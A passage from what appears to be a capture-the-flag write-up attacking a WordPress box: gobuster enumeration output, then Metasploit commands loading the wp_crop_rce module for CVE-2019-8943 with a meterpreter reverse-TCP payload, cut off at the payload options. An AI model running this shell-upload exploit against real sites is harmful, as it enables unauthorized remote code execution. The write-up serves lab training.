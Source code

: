 ```
/wp-rss2.php (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme.html (Status: 200)
/robots.txt (Status: 200)
/' (Status: 301)
/0000 (Status: 301)
/wp-atom.php (Status: 301)
/embed (Status: 301)
/wp-commentsrss2.php (Status: 301)
/wp-rdf.php (Status: 301)
/wp-rss.php (Status: 301)


```

Heres all the directories I've grabbed using gobuster I used a filter to only show status codes 200,204,301,302,307,401,403 so that I don't drown in error messages which is usually the case. Theres a lot of directories we've managed to uncover nothing were gonna visit right now though, but we will check them out come privesc if we need them. 

You may be wondering why don't I go to these directories. Its because the room has a good deal of rabbit holes that I'm trying to avoid by doing things out of nescessity always good practice if you have trickster rooms like that (whoever put that mp4 file in that samba share had me looking for stegnography clues for a solid 30min before I gave up).

## Exploitation

Given the abundance of Wordpress exploits I thought to do a google search to see if anything pops up. After further research I found a lot of promising vulnerabilties keep in mind 2020 and 2021 have introduced a significant amount of new wordpress exploits so much so that after doing a wpscan with api there is 32 exploits that it found that could work on this specific box. I decided to keep it simple and use the CVE they highlighted CVE-2019-8943.

Thankfully theres a metasploit module associated with the exploit making our lives that much easier .

```
$msfconsole
$search WordPress
$use exploit/multi/http/wp_crop_rce                                 2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload

```

```
sf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

```